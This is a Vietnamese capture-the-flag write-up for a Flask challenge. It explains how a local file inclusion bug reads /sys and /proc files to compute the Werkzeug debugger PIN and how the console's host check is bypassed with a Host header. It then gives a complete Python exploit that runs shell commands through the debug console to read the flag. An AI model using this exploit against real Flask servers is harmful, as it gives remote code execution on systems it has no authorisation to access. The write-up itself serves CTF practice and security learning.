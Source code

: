 <img width="1495" height="704" alt="image" src="https://github.com/user-attachments/assets/525a815b-1719-4050-8b0b-6a296ac7d931" />


Mở source code lên xem, ta thấy ở function view(), lỗ hổng LFI, cho phép đọc file của sever.


```python
from flask import Flask, request, render_template

app = Flask(__name__)

@app.route('/')
def hello_world():
    return render_template('index.html')

@app.route('/view')
def view():
    filename = request.args.get('filename')
    if not filename:
        return "Filename is required", 400
    try:
        with open(filename, 'r') as file:
            content = file.read()
        return content, 200
    except FileNotFoundError:
        return "File not found", 404
    except Exception as e:
        return f"Error: {str(e)}", 500

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```
Tiếp đến, ta check file docker. Chú ý thấy tên file flag.txt đã được di chuyển sang thư mục `/` và bị đổi tên thành flag-<32 ký tự random>.txt đồng thời giới hạn quyền truy cập
```docker
RUN mv flag.txt /flag-$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1).txt && \
    chown -R nobody:nogroup /app
```
Mặc dù có LFI nhưng vì ko thể nào đoán được tên file flag, nên ta phải tìm cách khác. Chú ý thấy trong đoạn source code, chế độ debug đã được bật. 

Khi chạy Flask app với `debug=True`, framwork **Werkzeug** ( thư viện đứng sau Flask ) sẽ bật một **interactive debugger**. Debugger này có giao diện web, tồn tại một enpoint `/console`, khi nhập đúng mã pin và bypass, nó sẽ trở thành một Python shell trên sever.

Cách tính PIN
----------------------------------
**Werkzeug** tạo PIN bằng SHA1 của:
- username (`nobody`)
- module name (`flask.app`)
- class name (`Flask`)
- đường dẫn file Flask (`usr/local/lib/python3.11/site-packages/flask/app.py`)
- MAC address ( từ `/sys/class/net/eth0/address`)
- bootid ( từ `/proc/sys/kernel/random/boot_id`)

Rồi thêm salt -> tạo chuỗi PIN.

Lợi dụng lỗ hổng LFI sẵn có, ta đọc được file rồi tính mã PIN. 

Lấy secret
--
Truy cập trực tiếp `/console ` thường bị chặn (host check), có thể bypass bằng header. 
Trang trả về một JS snipper có chứa biến SECRET=""

Xác thực PIN
-
- Gửi pin đến endpoint `/console>_debugger__=yes&cmd=pinauth`
- Nếu đúng -> nhận cookie `__wzd...` cho phiên debug

Code Exploit
-
```python
from requests import get
import hashlib
from itertools import chain
import re

HOST = "https://my-flask-app.chals.sekai.team:1337"

#Lấy content của file
def getfile(filename):
    try:
        response = get(f"{HOST}/view?filename={filename}")
        return response.text
    except Exception as e:
        print(f"Error{e}")
        return None

#code generate mã PIN của thư viện
def get_pin(probaly_public_bits, private_bits):
    h = hashlib.sha1()
    for bit in chain(probaly_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')
    
    cookie_name = '__wzd' + h.hexdigest()[:20]
    
    num = None
    if num is None:
        if num is None:
            h.update(b'pinsalt')
            num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    return rv

def get_secret():
    #
    response = get(f"{HOST}/console", headers={"Host": "127.0.0.1"})
    match = re.search(r'SECRET\s*=\s*["\']([^"\']+)["\']', response.text)

    if match:
        return match.group(1)
    return None

def authenticate(secret, pin):
    response = get(f"{HOST}/console?__debugger__=yes&cmd=pinauth&pin={pin}&s={secret}", headers={"Host": "127.0.0.1"})
    return response.headers.get("Set-Cookie")

def execute_code(cookie, code, secret):
    response = get(f"{HOST}/console?__debugger__=yes&cmd={code}&frm=0&s={secret}", headers={"Host": "127.0.0.1", "Cookie": cookie})
    return response.text

if __name__ == "__main__":

    mac = getfile("/sys/class/net/eth0/address")
    mac = str(int("0x" + "".join(mac.split(":")).strip(), 16))
    boot_id = getfile("/proc/sys/kernel/random/boot_id").strip()
    
    # should be default
    probably_public_bits = [
        'nobody',
        'flask.app',
        'Flask',
        '/usr/local/lib/python3.11/site-packages/flask/app.py' # change this to the path of the flask app
    ]

    private_bits = [
        mac,
        boot_id
    ]

    print("Found Console PIN: ", get_pin(probably_public_bits, private_bits))

    secret = get_secret()
    print("Found Secret: ", secret)

    cookie = authenticate(secret, get_pin(probably_public_bits, private_bits))
    print("Found Cookie: ", cookie)

    print("Executing code...")

    output = execute_code(cookie, "__import__('os').popen('cat /flag*').read()", secret)
    
    match = re.search(r'SEKAI\{.*\}', output)
    if match:
        print("Found flag: ", match.group(0))
    else:
        print("No flag found")

    print("Done")
```

